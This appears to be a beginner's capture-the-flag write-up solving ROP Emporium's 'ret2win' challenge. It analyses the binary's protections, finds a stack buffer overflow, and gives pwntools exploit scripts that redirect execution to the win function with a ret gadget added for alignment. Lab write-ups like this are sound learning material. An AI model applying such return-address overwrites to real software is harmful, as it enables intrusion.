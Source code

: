 ### Intro
THIS is my first time writing a solve of pwn challenge, here in github. All this in order to learn and share at the same time. For that i started solving challenges from this website https://ropemporium.com/.
Basically this is the solve for the first challenge : **ret2win**
## First steps
we have a ret2win challenge.
![[Pasted image 20241011230907.png]]
1. So let's started by knowing more about the binary.
![[Pasted image 20241011224424.png]]
using file command we can learn about : 
- “LSB” here stands for “least-significant byte” , as opposed to “MSB”, “most-significant byte”. It means that the binary is little-endian.
- the architecture of binary which is x86-64.
- dynamically linked : meaning calls needed functions outside the binary unlike statically linked which have functions compiled inside the binary .
- libc and loader versions .
- not stripped : the binary have symbols (variables and functions names) which a good thing.
2. check protections 
![[Pasted image 20241011225950.png]]
Using `checksec` we can see that there is no canary (potential buffer overflow) , no pie (addresses are not randomized and changing with each execution) , partial relro (we can overwrite a got table entry) and NX is enabled (we cannot execute a shell in stack)
3. disassembling and decompiling with cutter
Functions are listed
![[Pasted image 20241011221716.png]]
we see main,pwnme,and ret2win functions
main calls pwnme but ret2win function is never called.

![[Pasted image 20241011221945.png]]
pwnme function reads to 0x38 bytes knwing that the buffer size is 0x20 : it is a buffer overflow.

![[Pasted image 20241011222000.png]]
ret2win is ofc our win function : it cats the flag .
now we have to overwrite the return address in order to redirect execution to ret2win function.

so we need : 
- offset to get to the ret address
- address of ret2win function

from disassembly code we see that the offset is 0x28 bytes: (0x20 bytes of the buffer + 8 bytes of rbp) 
![[Pasted image 20241011222830.png]]

and win address is 0x00400756
4. exploit 
```python3
from pwn import * 
p=process("ret2win")
p.recvuntil(b"> ")
p.sendline(b"a"*0x28+p64(0x00400756))
p.interactive()
```
by running this we get abnormal behavior...
after some research we found it is a stack misalignment:
https://masm32.com/board/index.php?topic=7729.0 cuz in pwnme function we only have a push and no pop of the rbp.

to align it we add the ret address of any ret in binary.
![[Pasted image 20241011222940.png]]

Final exploit:
```python3
from pwn import * 
p=process("ret2win")
p.recvuntil(b"> ")
p.sendline(b"a"*0x28+p64(0x00400770)+p64(0x00400756))
p.interactive()
```